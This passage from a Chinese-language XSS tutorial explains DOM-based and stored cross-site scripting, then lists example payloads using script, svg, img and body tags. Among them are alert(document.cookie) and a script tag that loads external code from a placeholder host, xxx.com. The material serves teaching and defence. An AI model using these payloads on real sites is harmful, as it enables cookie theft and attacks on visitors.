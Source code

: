 ![](xss-dom-based.png)

DOM-based 型 XSS 通过url传入参数去控制触发的，其实也属于反射型 XSS，只是不经过服务器。

需要特别注意以下的输入源：

- `document.URL`

- `location.hash`

- `location.search`

- `document.referrer`



### 存储型 XSS

![](xss-last.png)

攻击者事先将恶意代码上传或储存到漏洞服务器中，只要受害者浏览包含此恶意代码的页面就会执行恶意代码。这就意味着只要访问了这个页面的访客，都有可能会执行这段恶意脚本，因此储存型 XSS 的危害会更大。

存储型 XSS 一般出现在网站留言、评论、博客日志等交互处，恶意脚本存储到客户端或者服务端的数据库中。



### 攻击载荷

**所有可以执行 script 代码的标签都可以成为 XSS 攻击载荷**

* `<script>`
  
  ```html
  <script>alert("hack")</script>   #弹出hack
  <script>alert(/hack/)</script>   #弹出hack
  <script>alert(1)</script>        #弹出1，对于数字可以不用引号
  <script>alert(document.cookie)</script>      #弹出cookie
  <script src=http://xxx.com/xss.js></script>  #引用外部的xss
  ```

* `<svg>`
  
  ```html
  <svg onload="alert(1)">
  
  ```

* `<img>`
  
  ```html
  <img  src=1  οnerrοr=alert("hack")>
  <img  src=1  οnerrοr=alert(document.cookie)>  #弹出cookie
  ```

* `<body>`
  
  ```html
  <body οnlοad=alert(1)>
  <body οnpageshοw=alert(1)>
  ```
